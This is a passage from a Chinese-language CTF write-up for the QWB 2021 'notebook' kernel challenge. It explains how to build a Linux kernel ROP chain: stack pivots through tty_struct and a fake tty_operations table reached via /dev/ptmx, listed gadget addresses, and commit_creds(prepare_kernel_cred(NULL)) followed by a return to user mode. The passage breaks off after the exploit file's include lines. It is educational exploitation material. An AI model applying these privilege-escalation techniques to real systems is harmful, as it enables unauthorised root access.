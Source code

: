 # Step 15: exp编写——构造ROP链
在调用/dev/ptmx的write函数时，rdi指向tty_struct结构体本身，因此可以利用这种性质获取到tty_struct结构体的地址，并将rsp赋值为这个地址。我们需要找的是能够将rdi中的内容拷贝到rsp中的gadget。正好有这个gadget：

```
root@ubuntu:~/Desktop/pwnfile/QWB/QWB-2021/notebook/附件# cat gadgets.txt | grep 'push rdi ; pop rsp'
0xffffffff812351be : push rdi ; pop rsp ; jmp 0xffffffff8123519f
0xffffffff81238d50 : push rdi ; pop rsp ; pop rbp ; add rax, rdx ; ret
0xffffffff8143f4e1 : push rdi ; pop rsp ; pop rbp ; or eax, edx ; ret
```

这样我们就可以第一次栈迁移到tty_struct。

然后，我们在tty_struct中再构造一个简短的gadget。因为tty_struct对于/dev/ptmx文件操作至关重要，对于其中的字段我们能修改地越少越好。因此我们还需要第二次栈迁移。这第二次栈迁移我们选择迁移到假的tty_operations中，这个tty_operations也就是进行第一次栈迁移时使用的假的tty_operations，其中写有构造好的write函数，也就是用于第一次栈迁移到tty_struct的gadget。

这里我们使用下面的gadget来进行构造：

```
0xffffffff81002141 : pop rbx ; pop rbp ; ret
0xffffffff8107875c : mov rsp, rbp ; pop rbp ; ret
```

我们在tty_struct[1]的位置写入第一个gadget，这样可以将假tty_operations（位于tty_struct[3]）地址拷贝到rbp中，然后在tty_struct[4]写入第二个gadget栈迁移到假tty_operations中。

由于tty_operations中需要有write函数指针指向第一次栈迁移gadget，为了避免覆盖，我们进行第三次栈迁移（或者使用诸如``add rsp, 0x10``这样的指令跳过）。

然后在第三次栈迁移后，我们终于可以相对自由地构造自己的rop链了。接下来就是常规的构造内核rop链过程：执行commit_creds(prepare_kernel_cred(NULL))、返回到用户态。注意这里含的``mov rdi, rax``的gadget不好找，在ROPgadget中没有这种gadget，但是通过objdump还是可以找到：

```asm
ffffffff81045833:	48 89 c7             	mov    %rax,%rdi
ffffffff81045836:	31 c0                	xor    %eax,%eax
ffffffff81045838:	48 81 ff 00 00 00 09 	cmp    $0x9000000,%rdi
ffffffff8104583f:	74 02                	je     ffffffff81045843 <lmce_supported+0x33>
ffffffff81045841:	5d                   	pop    %rbp
ffffffff81045842:	c3                   	retq
```
另外在swapgs_restore_regs_and_return_to_usermode函数中，前面的一大堆pop我们不需要，因此可以直接跳过。

![](15.png)

![](16.png)

exp:
```c
//
// Created by root on 22-7-28.
//
#include <poll.h>
#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <semaphore.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>

```